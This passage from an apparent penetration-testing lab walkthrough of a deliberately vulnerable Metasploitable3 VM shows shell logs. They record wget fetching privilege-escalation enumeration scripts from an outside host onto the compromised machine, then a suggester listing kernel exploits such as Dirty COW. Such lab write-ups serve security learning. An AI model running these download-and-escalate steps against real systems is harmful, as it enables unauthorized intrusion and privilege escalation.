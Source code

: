 Using wget to download the files:

```
boba_fett@metasploitable3-ub1404:/var/tmp$ wget http://192.168.4.129/LinEnum.sh
wget http://192.168.4.129/LinEnum.sh
--2019-12-15 12:24:25--  http://192.168.4.129/LinEnum.sh
Connecting to 192.168.4.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 45650 (45K) [text/x-sh]
Saving to: 'LinEnum.sh'

     0K .......... .......... .......... .......... ....      100% 1.04M=0.04s

2019-12-15 12:24:25 (1.04 MB/s) - 'LinEnum.sh' saved [45650/45650]

boba_fett@metasploitable3-ub1404:/var/tmp$ wget http://192.168.4.129/lse.sh
wget http://192.168.4.129/lse.sh
--2019-12-15 12:24:58--  http://192.168.4.129/lse.sh
Connecting to 192.168.4.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 31736 (31K) [text/x-sh]
Saving to: 'lse.sh'

     0K .......... .......... ..........                      100% 20.2M=0.002s

2019-12-15 12:24:58 (20.2 MB/s) - 'lse.sh' saved [31736/31736]

boba_fett@metasploitable3-ub1404:/var/tmp$


boba_fett@metasploitable3-ub1404:~$ wget http://192.168.4.129/linux-exploit-suggester-2.pl
--2020-04-08 13:05:21--  http://192.168.4.128/linux-exploit-suggester-2.pl
Connecting to 192.168.4.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24783 (24K) [text/x-perl]
Saving to: ‘linux-exploit-suggester-2.pl’

100%[===================================================================================================================>] 24,783      --.-K/s   in 0s      

2020-04-08 13:05:21 (108 MB/s) - ‘linux-exploit-suggester-2.pl’ saved [24783/24783]

boba_fett@metasploitable3-ub1404:~$
```

After running the enumeration scripts, a few things popped out for me:

##### Kernel Exploits - There were some kernel exploits available for this kernel version

```
boba_fett@metasploitable3-ub1404:~$ perl linux-exploit-suggester-2.pl 

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 3.13.0
  Searching 72 exploits...

  Possible Exploits
  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
```